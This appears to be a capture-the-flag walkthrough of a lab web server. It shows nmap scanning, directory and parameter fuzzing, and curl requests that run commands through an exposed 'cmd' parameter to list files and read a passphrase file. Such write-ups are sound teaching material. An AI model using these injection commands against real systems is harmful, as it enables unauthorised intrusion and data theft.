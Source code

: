 
##### **Nmap Scan:**

`nmap -A 10.10.245.95 -v -Pn -oN nmap.txt`
`nmap -T4 -n -sC -sV -Pn -p- 10.10.74.25`

There are two ports open.
- 22/SSH
- 80/HTTP



##### **Find hidden directories**

`feroxbuster -u http://10.10.245.95 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There are two hidden directories I got.
- `/assets`
- `/assets/images`





##### **To search further for the hidden parameters:**

`      ffuf -u 'http://10.10.74.25/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 0      `




##### **From here we find the cmd parameter. Using curl we see:**

`curl -s 'http://10.10.245.95/assets/index.php?cmd=id'

Decode base64:

`curl --silent 10.10.245.95/assets/index.php?cmd=id | base64 -d`




###### **I will now move on to blind data exfiltration.**
###### **Looking at the present working directory and the contents of it. We see:**

`curl -s 'http://10.10.245.95/assets/index.php' -G --data-urlencode 'cmd=pwd' | base64 -d`

`curl -s 'http://10.10.245.95/assets/index.php' -G --data-urlencode 'cmd=ls -la' | base64 -d`

###### **Digging more I found a interesting file:**

`curl -s 'http://10.10.245.95/assets/index.php' -G --data-urlencode 'cmd=cat /var/www/Hidden_Content/passphrase.txt | base64 -d' | base64 -d`

###### **And some images:**

`curl -s 'http://10.10.245.95/assets/index.php' -G --data-urlencode 'cmd=ls -la images' | base64 -d`
